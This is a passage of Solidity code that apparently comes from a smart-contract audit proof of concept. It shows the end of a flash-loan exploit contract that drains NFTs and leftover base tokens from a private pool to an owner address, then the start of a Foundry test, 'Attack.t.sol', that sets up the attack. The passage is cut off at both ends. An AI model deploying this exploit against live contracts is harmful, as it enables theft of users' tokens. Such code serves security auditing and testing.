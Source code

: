 ```solidity
            _nftToken.transferFrom(address(_privatePool), _owner, tokenIds[i]);
        }

        // Get the fee that needs to be repaid and approve the amount
        uint256 fee = _privatePool.flashFee(address(0), 0);
        _baseToken.approve(address(_privatePool), fee);

        // Transfer all excess base tokens to the owner
        _baseToken.transfer(_owner, _baseToken.balanceOf(address(this)));

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function ownerOf(uint) public view returns (address) {
        return address(_privatePool);
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external pure returns (bytes4) {
        return this.onERC721Received.selector;
    }
}
```

Attack.t.sol
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "../Fixture.sol";
import "../../src/attacks/PrivatePoolExploit.sol";
import {ERC20} from "solmate/tokens/ERC20.sol";

contract ERC20Example is ERC20 {
    constructor(string memory _name, string memory _symbol, uint8 _decimals) ERC20(_name, _symbol, _decimals) {
        _mint(msg.sender, 100_000 * 10**_decimals);
    }
}

contract AttackTest is Fixture {
    event Buy(
        uint256[] tokenIds,
        uint256[] tokenWeights,
        uint256 inputAmount,
        uint256 feeAmount,
        uint256 protocolFeeAmount,
        uint256 royaltyFeeAmount
    );

    address bob = address(0x1);
    address alice = address(0x2);

    PrivatePoolExploit public privatePoolExploit;
    ERC20 public baseToken;

    address nft = address(milady);
    uint128 virtualBaseTokenReserves = 100e6;
    uint128 virtualNftReserves = 5e18;
    uint16 feeRate = 0;
```